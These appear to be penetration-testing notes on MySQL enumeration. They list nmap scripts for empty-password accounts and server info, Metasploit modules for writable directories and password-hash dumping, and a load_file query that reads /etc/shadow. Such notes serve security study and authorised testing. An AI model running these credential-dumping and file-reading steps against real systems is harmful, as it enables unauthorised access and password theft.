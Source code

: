 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```


### Using `metasploit` to enumerate directories

- Metasploit module to enumerate writable directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
